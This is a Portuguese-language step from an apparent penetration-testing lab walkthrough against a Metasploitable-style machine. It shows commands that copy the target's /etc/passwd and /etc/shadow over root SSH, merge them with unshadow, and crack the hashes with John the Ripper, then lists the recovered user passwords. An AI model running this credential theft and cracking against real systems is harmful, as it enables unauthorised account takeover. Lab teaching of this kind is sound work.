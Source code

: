 # 04. Bruteforce de senhas de usuários com John the Ripper

Após conseguir o acesso ao SSH da nossa máquina alvo (leia <a href="/steps/03_ganhando_acesso_direto_ao_ssh.md">03. Ganhando acesso direto ao <b>SSH</b></a>), vamos tentar comprometer e ter acesso as senhas dos outros usuários existentes na máquina alvo.

No Linux, existem dois arquivos armazenados a <i><b>"nível de sistema operacional"</b></i> que contém informações de login de usuários daquela mesma máquina - o `passwd`, localizado em `/etc/passwd`, e o `shadow`, localizado em `/etc/shadow`.

Vamos copiar esses dois arquivos para o nosso sistema operacional atacante e tentar fazer o bruteforce dos hashes das senhas dos usuários:

```
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.102:/etc/passwd Documents/passwd                  
passwd                                                                                                                                 100% 1581     1.0MB/s   00:00    
                                                                                                                                                                         
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.102:/etc/shadow Documents/shadow
shadow                                                                                                                                 100% 1207   940.6KB/s   00:00
```

Documentos passados pra nossa máquina atacante, vamos gerar um documento no formato que o <i><b>John the Ripper</b></i> possa reconhecer e fazer o processo de bruteforce nas hashs:

```
$ cd Documents && unshadow passwd shadow > ms2_unshadow.txt
Created directory: /home/pqpmath3ws/.john
```

Unificamos as informações dos dois arquivos, e agora iremos usar o <i><b>John the Ripper</b></i> para tentar descobrir as senhas dos usuários presentes na máquina.

O <i><b>John the Ripper</b></i> é uma ferramenta <i><b>open-source</b></i> de auditoria de segurança de senhas e recuperação de senhas de código aberto disponível para muitos sistemas operacionais.

Com a explicação feita, vamos executar o seguinte comando:

`$ john ms2_unshadow.txt`

E o retorno do mesmo nos dão as seguintes informações:

```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
user             (user)     
postgres         (postgres)     
msfadmin         (msfadmin)     
service          (service)     
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
123456789        (klog)     
batman           (sys)     
Proceeding with incremental:ASCII
6g 0:07:07:35  3/3 0.000233g/s 68490p/s 68490c/s 68490C/s aakkk62..aak18oc
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

O <i><b>John the Ripper</b></i> apontou para gente as seguintes informações:

- Usuário: `klog` / Senha: `123456789`
- Usuário: `msfadmin` / Senha: `msfadmin`
- Usuário: `postgres` / Senha: `postgres`
- Usuário: `service` / Senha: `service`
- Usuário: `sys` / Senha: `batman`
- Usuário: `user` / Senha: `user`

O <b>ÚNICO</b> usuário que ficou faltando da lista foi o `root` <i><b>(AINDA NÃO DESCOBERTA A SENHA)</b></i>.

Eu abortei o processo depois de pegar os 6 outros usuários pois eu tentei quebrar essa mesma hash com outro software <i><b>open-source</b></i> usando o mesmo dicionário (localizado em `/usr/share/john/password.lst`) e até onde eu executei, ainda não achei a senha do mesmo. Tenso, mas faz parte ;)

Com as senhas da maioria dos usuários expostas, vamos continuar com o nosso progresso - o céu é o limite! Vamos para a nossa próxima etapa! - <a href="/steps/05_comprometendo_banco_de_dados_com_ssh.md">05. Comprometendo banco de dados com <b>SSH</b></a>